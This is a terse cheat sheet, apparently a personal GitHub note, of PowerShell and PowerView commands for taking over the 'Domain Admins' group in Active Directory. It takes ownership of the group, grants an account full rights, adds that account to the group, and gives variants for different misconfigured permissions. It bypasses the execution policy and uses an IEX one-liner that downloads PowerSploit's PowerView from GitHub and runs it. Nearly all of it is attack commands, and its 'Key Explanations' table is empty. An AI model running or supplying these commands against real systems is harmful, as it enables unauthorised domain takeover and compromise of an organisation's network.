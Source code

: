 #### Power view cheet
-----------------------------------------------------------------------
# Commands
powershell -ep bypass
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"
net group "domain admins" goodboy /add /domain

------------------------------------------------------------------------------------------------------------
# Import the AD module (requires RSAT or AD PowerShell tools)
Import-Module ActiveDirectory

# Now try the command again
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

--------------------------------------------------------------------------------------------------------
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"
$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity

------------------------------------------------------------------------------------------------------------
# Create the AD: drive if missing
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"

# Now get ACL
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"

---------------------------------------------------------------------
# 1. Take ownership
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))
$group.psbase.CommitChanges()

# 2. Add self to group
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")


Key Explanations:

Permission	Why Needed
Modify owner	
Modify permissions	
Write properties	


---------------------------------------------------------------------------------
with ✔ Modify permissions

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView
(If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

with permission  - write all properties ✔ is  only enabled

if powerview  fails
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
with permissions - ✔ modify owner is only enabled

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")
or downloade the script and run by import

powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose